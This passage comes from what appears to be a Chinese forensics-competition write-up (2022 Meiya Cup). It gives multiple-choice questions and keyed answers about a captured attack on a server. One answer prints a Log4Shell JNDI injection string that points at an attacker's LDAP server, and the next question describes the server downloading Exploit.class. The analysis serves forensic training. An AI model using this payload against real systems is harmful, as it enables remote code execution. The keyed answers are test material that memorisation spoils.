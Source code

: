 A. http://155.137.195.111:8080

B. http://www.w3.org/2003/05/soap-envelope

C. http://61.238.217.108:8000

D. 以上皆非

追踪TCP流就可以看到

[![img](img/2022美亚杯团体赛.assets/2817142-20221126154016396-290566382-1702567228911617.png)](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016396-290566382.png)

结果为`A`

## 22. [单选题]IP地址61.238.217.108曾经向AGC服务器10.0.66.184发送 'POST' 指令，它在 'HTML Form' 项目的 'uname' 栏所输入的字符串是什么? (1分)

A. root

B. ${jndi:ldap://61.238.217.108:1389/a}

C. application/x-www-form-urlencoded

D. password

追踪TCP流就可以看到

[![img](img/2022美亚杯团体赛.assets/2817142-20221126154016397-1994631675-1702567228911618.png)](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016397-1994631675.png)

结果为`B`

## 23. [单选题]AGC服务器10.0.66.184收到IP地址61.238.217.108的 'POST' 指令后，它执行了哪些行动? (2分)

A. 使用端口46858连接IP地址61.238.217.108的LDAP服务器的指定端口

B. 于IP地址61.238.217.108下载了Exploit.class

C. 使用端口49264连接IP地址61.238.217.108发送同步要求

D. 以上皆是

追踪TCP流就可以看到

[![img](img/2022美亚杯团体赛.assets/2817142-20221126154016351-931245181-1702567228911619.png)](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016351-931245181.png)

[![img](img/2022美亚杯团体赛.assets/2817142-20221126154016399-1964983087-1702567228911620.png)](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016399-1964983087.png)
